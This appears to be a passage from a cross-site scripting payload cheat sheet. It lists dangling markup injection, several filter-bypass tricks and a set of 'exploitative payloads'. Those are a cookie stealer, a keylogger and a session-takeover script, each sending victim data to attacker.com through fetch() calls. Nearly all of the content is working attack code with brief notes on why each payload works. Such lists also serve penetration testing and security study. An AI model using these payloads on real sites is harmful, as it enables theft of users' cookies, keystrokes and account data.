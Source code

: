 ## Expert-Level Payloads

### Dangling Markup Injection
```html
<img src='https://attacker.com/
```
*Why it works:* Causes everything after injection until the next quote to be sent to attacker's server.

### Advanced Filter Bypasses

#### Without Parentheses
```javascript
<script>onerror=alert;throw 1</script>
<script>throw onerror=alert,1</script>
```
*Why it works:* Executes alert without using parentheses when they're filtered.

#### Without Spaces
```javascript
<svg/onload=alert(1)>
<svg/onload=alert&#40;1&#41;>
```
*Why it works:* Uses alternative syntax that doesn't require spaces.

#### Self-Executing Functions
```javascript
<img src=x onerror=(()=>{alert(document.domain)})()>
```
*Why it works:* Uses arrow functions for more compact code execution.

### Exploitative Payloads

#### Cookie Stealer
```javascript
<script>
fetch('https://attacker.com/steal?cookie='+encodeURIComponent(document.cookie))
</script>
```
*Why it works:* Sends cookies to attacker-controlled server.

#### Keylogger
```javascript
<script>
document.addEventListener('keypress',function(e){
  fetch('https://attacker.com/log?key='+e.key)
});
</script>
```
*Why it works:* Captures and sends keystrokes to attacker-controlled server.

#### Session Takeover
```javascript
<script>
fetch('/api/user/profile')
.then(r=>r.json())
.then(data=>fetch('https://attacker.com/steal?data='+btoa(JSON.stringify(data))))
</script>
```
*Why it works:* Fetches sensitive data and sends it to an attacker-controlled server.
